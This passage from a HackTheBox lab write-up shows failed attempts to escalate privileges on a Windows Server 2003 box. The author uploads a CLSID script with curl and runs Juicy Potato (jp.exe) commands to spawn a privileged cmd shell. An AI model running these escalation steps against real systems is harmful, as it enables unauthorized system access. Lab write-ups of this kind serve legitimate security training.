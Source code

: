 Next, the exploit requires a CLSID. [This link](https://ohpe.it/juicy-potato/CLSID/) provides a script to get them, which I uploaded:

```bash
┌──(mac㉿kali)-[~/Documents/exploits]
└─$ cp ~/Downloads/GetCLSID.ps1 .
┌──(mac㉿kali)-[~/Documents/exploits]
└─$ curl -T GetCLSID.ps1 http://10.10.10.15/clsid.txt
```

Then renamed and attempted to execute:

```cmd
C:\Inetpub\wwwroot>rename clsid.txt clsid.ps1
rename clsid.txt clsid.ps1

C:\Inetpub\wwwroot>C:\Inetpub\wwwroot\clsid.ps1
C:\Inetpub\wwwroot\clsid.ps1

C:\Inetpub\wwwroot>powershell -noexit "& ""C:\Inetpub\wwwroot\clsid.ps1"""
powershell -noexit "& ""C:\Inetpub\wwwroot\clsid.ps1"""
'powershell' is not recognized as an internal or external command,
operable program or batch file.
```

However it didn't work. I tried just using the command provided on the off chance the CLSID worked:

```bash
C:\Inetpub\wwwroot>"jp.exe" -l 413 -p c:\windows\system32\cmd.exe -t * -c {6d18ad12-bde3-4393-b311-099c346e6df9}
"jp.exe" -l 413 -p c:\windows\system32\cmd.exe -t * -c {6d18ad12-bde3-4393-b311-099c346e6df9}
```

However it just hung. I didn't get anything on my netcat, and even tried running whoami in case the shell connected with no notice, but it didn't work:

![[Pasted image 20210611194007.png]]

I also tried the version from the [hunter2 writeup](https://hunter2.gitbook.io/darthsidious/privilege-escalation/juicy-potato), but got a similar result:

```cmd
C:\Inetpub\wwwroot>jp.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
jp.exe -l 1337 -p c:\windows\system32\cmd.exe -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}
```

There were a few CLSIDs listed on the ohpe page for different versions of Windows (suggesting they were in fact standardised and not like a PID) but none for Windows Server 2003. I thought about [manually extracting them](https://serverfault.com/questions/343148/how-do-i-find-application-name-using-guid-from-error-in-event-viewer-on-windows), perhaps by seeing what the powershell script did, but as this is one of the easiest boxes on HTB I figured there must be an... easier way.

## Windows Exploit Suggester

After a bit of a break, I looked at [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester).
